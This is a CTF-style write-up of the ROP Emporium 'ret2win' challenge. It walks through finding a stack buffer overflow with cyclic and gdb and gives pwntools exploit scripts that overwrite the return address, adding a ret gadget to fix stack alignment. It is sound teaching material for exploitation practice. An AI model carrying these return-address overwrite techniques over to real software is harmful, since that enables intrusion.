Starting off, I stumbled across [ROP Emporium website](https://ropemporium.com/), So I will be tackling its challenges, first challenge is ret2win, the challenge can be downloaded [here](https://ropemporium.com/challenge/ret2win.html)

This challenge is a ret2win that is we must return to a function we want hence win. First we check the file permissions using checksec.

 We see that in PIE is NO PIE meaning we can execute a function without the address being changed.

Let's run the file and see what it does. If I input the string "hello there" it prints out thank you response and then exits.

SInce this is a buffer overflow challenge let's  try to overflow it, I will use cyclic since it comes pre installed with pwntools.

Nice we get a seg fault that means we have overflowed the data. We can disassemble it using ghidra to see how it works.

In the main function:  We see the main thing it does it prints 2 statements then calls a function pwnme(). In the function pwnme():
 It starts by declaring a local variable which can hold upto 32 bytes. Then it prints the rest of the statement which we saw when we ran the program. Then there is a read function which reads 0x38 bytes hence creating a buffer overflow since local_28 can only read 32 bytes of data.  So in the functions section there is a ret2win function . We see a call to system that prints flag.txt, thats the function we want.

Now let's find our offset. There are many ways of finding the offset:
I will use my favorite one. 

### Using gdb and cyclic.
Start with cyclic 100 to get random characters to overflow the buffer.
<pre>aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa</pre>
We need to break right after the read function so that we see what happens in the stack. We set a breakpoint at mov function after reads function.  next we can run the program and paste the cyclic pattern generated.
  The program stopped since we hit a breakpoint, nice! Next command we will type c to continue.

The program now stopped due to sigsegv(segmentation fault). Now since this is an x64 program to determine our offset we will copy the value of rsp since that is the stack pointer. The value is "kaaalaaa"
Now use cyclic -l "kaaalaaa" to find the offset. . The offset is 40. Now we can develop our exploit using pwntools.


#### Developing exploit
We need the ret2win address, we can copy the address from gdb. 
```python
 from pwn import *
 context.binary = binary = ELF("./ret2win)

 p = process()
 # pad the buffer with 40 A's
 buffer = b"A"*40 
 # the ret2win function we need to jump to.
 win = p64(0x0000000000400756)
 payload = buffer + win

# we tell the program to receive the ouput until >
 p.recvuntil(b">")
 p.sendline(payload)
 p.interactive()

 ```

 Now this program should print our flag, but in my case in this writeup I am using Ubuntu 22-04, so in UBUNTU there is something called MOVAPS issue which causes stack alignment issues, so in order for this to work we need to add a ret function. We can use another tool that comes pre installed with pwntools called ROPgadget
 

So our updated code will be:
```python
from pwn import *
context.binary = binary = ELF("./ret2win")

p = process()
# pad the buffer with 40 A's
buffer = b"A"*40
# the ret function due to MOVAPS
ret = p64(0x000000000040053e)
# the ret2win function we need to jump to.
win = p64(0x0000000000400756) 
payload = buffer + ret +win

# we tell the program to receive the ouput until >
p.recvuntil(b">")
p.sendline(payload)
p.interactive()
```
When we ran the program:

That is it for that challenge. On to the next one.
